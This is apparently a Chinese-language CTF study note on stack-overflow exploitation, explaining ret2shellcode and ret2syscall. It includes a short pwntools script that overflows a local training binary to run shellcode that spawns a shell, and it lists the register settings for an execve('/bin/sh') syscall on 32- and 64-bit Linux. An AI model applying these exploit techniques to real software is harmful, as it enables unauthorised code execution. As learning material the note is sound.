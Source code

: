 |     &(call _system)     |

# ret2shellcode

个人感觉是必须有可读部分，且NX保护不能开。（开了还执行个der的shellcode

![image-20221025202358102](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210252023455.png)

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

# ret2syscall

思路大概是：使用`ROPgadget`寻找到含有修改寄存器并`ret`的寄存器操作。（要`ret`是因为需要执行多个这样的操作）。然后找到多个这样的操作来覆盖`return address`，通过这些修改寄存器的操作来进行`syscall`。

主要利用系统调用，系统调用这个操作主要由操作系统内核提供。

32位应用程序调用系统调用的过程：

- 系统调用编号置入EAX
- 函数参数存入其他通用寄存器
- 触发0x80中断(int 0x80)

注意，x86中系统调用的前五个参数分别为：

- ebx
- ecx
- edx
- esi
- edi

若还有更多参数，则需要单独使用一个寄存器存放指向所有参数在用户空间地址的指针。

例如，实现`execve("/bin/sh")`操作，在32位系统下有如下特征：

- 系统调用号即eax为0xb（0xb对应要执行的系统调用，此处即execve）
- 第一个参数，即ebx指向/bin/sh的地址。为sh的地址也可以。
- 第二个参数、第三个参数，即ecx和edx为0。

64位略有不同：

- 系统调用编号存入rax
- 参数1存入rdi，参数2存入rsi，参数3存入rdx
- `execve`的系统调用号为`59`
- 不再使用`int 80`来发起系统调用，而是`syscall`指令。
